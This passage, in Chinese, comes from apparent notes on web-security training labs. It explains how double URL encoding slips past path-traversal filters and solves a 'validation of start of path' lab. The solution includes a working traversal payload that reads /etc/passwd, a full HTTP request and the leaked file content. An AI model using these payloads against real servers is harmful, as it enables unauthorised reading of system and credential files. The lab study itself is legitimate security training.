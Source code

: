 ```bash
......
```

为什么二次编码可以生效？

一个参数发送到 WebServer 会自动解码一次，最后传递给 Web 应用，此时仍然有一次编码，去判断此值不存在目录遍历关键字就认为正常，最后交给读取文件的方法去获取内容，此方法在获取文件内容过程中发现文件名存在 URL 编码，则解码去下载，因此造成漏洞。问题就在于不同组件对于 URL 编码的处理方式不同，存在绕过过滤器的可能。

#### Lab: File path traversal, validation of start of path

题意：程序验证要下载的文件参数中的路径。

一打开应用发现图片加载写的绝对路径。

```bash
image?filename=/var/www/images/66.jpg
```

直接读 /etc/passwd 提示需要参数。

```bash
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'filename'"
```

根据标题来看就是验证了路径。通过给出路径跳跃到根目录解决。

```http
GET /image?filename=/var/www/images/../../..//etc/passwd HTTP/2
Host: 0a4a004003cda7c580f3120c004f003d.web-security-academy.net
Cookie: session=h7rMLeDmvobQYH0gbHJEiJCjsmJt3Kyz
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a4a004003cda7c580f3120c004f003d.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
......
```
